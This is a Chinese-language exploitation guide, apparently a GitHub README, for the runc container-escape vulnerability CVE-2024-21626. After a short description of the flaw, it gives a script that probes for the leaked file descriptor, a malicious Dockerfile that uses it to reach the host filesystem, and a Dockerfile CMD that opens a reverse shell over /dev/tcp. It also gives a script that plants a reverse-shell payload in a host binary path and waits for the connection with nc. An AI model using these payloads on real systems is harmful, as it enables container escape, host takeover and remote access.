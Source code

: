# CVE-2024-21626 利用场景



## 影响组件

runc是一个根据OCI规范，在Linux上生成和运行容器的命令行工具。runc的使用非常灵活，可以与各种容器工具和平台集成，如Docker、Kubernetes等。它支持多种容器格式，包括OCI规范定义的标准格式，以及其他格式如Docker镜像格式。作为开源项目，runc受到全球开发者社区的广泛参与和贡献，被广泛应用于生产环境中的容器化部署。





## 漏洞描述

近日，奇安信CERT监测到runc官方发布安全通告修复了**runc容器逃逸漏洞(CVE-2024-21626)**，由于runc存在内部文件描述符泄露，本地攻击者可以通过多种方式进行容器逃逸：

1、由于runc 内部意外地将包括宿主机 /sys/fs/cgroup 句柄的几个文件描述符泄漏到 runc init 中，攻击欺骗具有特权的用户执行恶意容器镜像，可以导致pid1 进程将在宿主机挂载命名空间中拥有一个工作目录，生成的进程可以访问整个宿主文件系统。

2、由于runc exec中同样存在文件描述符泄漏和工作目录验证不足。如果容器内的恶意进程知道某个管理进程将使用 --cwd 参数和给定路径调用 runc exec，便可以用符号链接将该路径替换为 /proc/self/fd/7/ 。一旦容器进程执行了容器镜像中的可执行文件，可以绕过PR_SET_DUMPABLE 保护，之后攻击者可以通过打开 /proc/$exec_pid/cwd 来访问主机文件系统。

3、可以通过将类似/proc/self/fd/7/../../../bin/bash的路径用作 process.args 二进制参数来覆盖主机二进制文件来改进攻击1、2。由于可以覆盖类似 /bin/bash的二进制文件，一旦特权用户在主机上执行目标二进制文件，攻击者就可以进行转移，以完全访问主机。

## 爆出漏洞的fd脚本

若哪个fd存在漏洞，则这个脚本会显示出来你宿主机的hostname，这个fd要记录下来填到下面的Dockerfile里

> https://github.com/Wall1e/CVE-2024-21626-POC/blob/main/poc.sh

```bash
#! /bin/bash
for i in {4..20}; do
    docker run -it --rm -w /proc/self/fd/$i ubuntu:20.04 bash -c "cat /proc/self/cwd/../../../etc/hostname"
done
```



## 恶意Dockerfile

```dockerfile
FROM ubuntu:18.04
WORKDIR /proc/1/fd/7/
```

## 构建Dockerfile

```bash
docker build .
docker run dockerid ls   ../../../
```

## 反弹shell

对于业务来说，给一个上面的恶意镜像

然后可以加一个CMD 反弹shell

```dockerfile
FROM ubuntu:18.04
WORKDIR /proc/1/fd/7/
CMD /bin/bash -c 'bash -i >&/dev/tcp/ip/8000 0>&1'
```

## 给宿主机植入shell

```bash
#!/bin/bash
ip=$(hostname -I | awk '{print $1}')
port=1337
cat > /proc/self/cwd/../../../../bin/bash.copy << EOF
#!/bin/bash
bash -i >& /dev/tcp/$ip/$port 0>&1
EOF

# listen and wait for reverse shell
nc -lvvp 1337
```



## 控制WROKERDIR 

```bash
runc exec --cwd /proc/1/fd/7/ demo ls ../../../../
```

有些产品可以指定 WROKERDIR 也就是 cwd 那么也受影响,可以关注一下启动时候的参数 能不能控制WROKERDIR 

